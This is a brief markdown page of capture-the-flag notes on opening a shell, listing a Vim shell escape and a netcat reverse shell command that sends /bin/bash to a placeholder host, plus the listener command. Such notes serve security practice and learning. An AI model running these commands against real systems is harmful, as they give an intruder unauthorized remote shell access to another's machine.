 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`
